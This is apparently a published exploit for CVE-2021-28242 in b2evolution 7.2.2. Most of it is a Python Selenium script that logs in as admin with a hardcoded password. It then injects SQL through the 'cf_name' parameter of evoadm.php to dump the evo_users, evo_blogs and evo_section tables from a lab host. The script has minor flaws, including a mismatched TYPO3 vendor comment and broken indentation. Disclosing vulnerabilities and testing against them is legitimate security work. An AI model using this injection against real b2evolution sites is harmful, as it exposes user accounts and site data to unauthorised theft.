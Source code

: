 EXP
---

    # Exploit Title: b2evolution 7-2-2 - 'cf_name' SQL Injection
    # Author: @nu11secur1ty
    # Testing and Debugging: @nu11secur1ty
    # Date: 05.06.2021
    # Vendor: https://b2evolution.net/
    # Link: https://b2evolution.net/downloads/7-2-2
    # CVE: CVE-2021-28242
    # Proof: https://streamable.com/x51kso

    [+] Exploit Source:

    #!/usr/bin/python3
    # Author: @nu11secur1ty
    # CVE-2021-28242


    from selenium import webdriver
    import time


    # Vendor: https://typo3.org/
    website_link="
    http://192.168.1.3/b2evolution/index.php?disp=login&redirect_to=%2Fb2evolution%2Findex.php%3Fblog%3D2&return_to=%2Fb2evolution%2Findex.php%3Fblog%3D2&source=menu%20link"

    # enter your login username
    username="admin"

    # enter your login password
    password="FvsDq7fmHvWF"

    #enter the element for username input field
    element_for_username="x"

    #enter the element for password input field
    element_for_password="q"

    #enter the element for submit button
    element_for_submit="login_action[login]"


    browser = webdriver.Chrome() #uncomment this line,for chrome users
    #browser = webdriver.Safari() #for macOS users[for others use chrome vis
    chromedriver]
    #browser = webdriver.Firefox() #uncomment this line,for chrome users

    browser.get((website_link))

    try:
    username_element = browser.find_element_by_name(element_for_username)
    username_element.send_keys(username)
    password_element  = browser.find_element_by_name(element_for_password)
    password_element.send_keys(password)
    signInButton = browser.find_element_by_name(element_for_submit)
    signInButton.click()

    # Exploit vulnerability MySQL obtain sensitive database information by
    injecting SQL commands into the "cf_name" parameter
    time.sleep(7)
    # Receaving sensitive info for evo_users
    browser.get(("http://192.168.1.3/b2evolution/evoadm.php?colselect_submit=&cf_name=SELECT+*+FROM+%60evo_users%60+ORDER+BY+%60evo_&cf_owner=&cf_type=&blog_filter_preset=custom&ctrl=collections"))

    time.sleep(7)
    # Receaving sensitive info for evo_blogs
    browser.get(("
    http://192.168.1.3/b2evolution/evoadm.php?colselect_submit=&cf_name=SELECT%20*%20FROM%20`evo_blogs`%20ORDER%20BY%20`evo_blogs`.`blog_name`&cf_owner=&cf_type=&blog_filter_preset=custom&ctrl=collections"))

    time.sleep(7)
    # Receaving sensitive info for evo_section
    browser.get(("http://192.168.1.3/b2evolution/evoadm.php?colselect_submit=&cf_name=SELECT%20*%20FROM%20`evo_section`%20ORDER%20BY%20`evo_section`.`sec_name`&cf_owner=&cf_type=&blog_filter_preset=custom&ctrl=collections"))


    time.sleep(7)
    browser.close()


    print("At the time, of the exploit, you had to see information about the
    tables...\n")



    except Exception:
    #### This exception occurs if the element are not found in the webpage.
    print("Sorry, your exploit is not working for some reasons...")
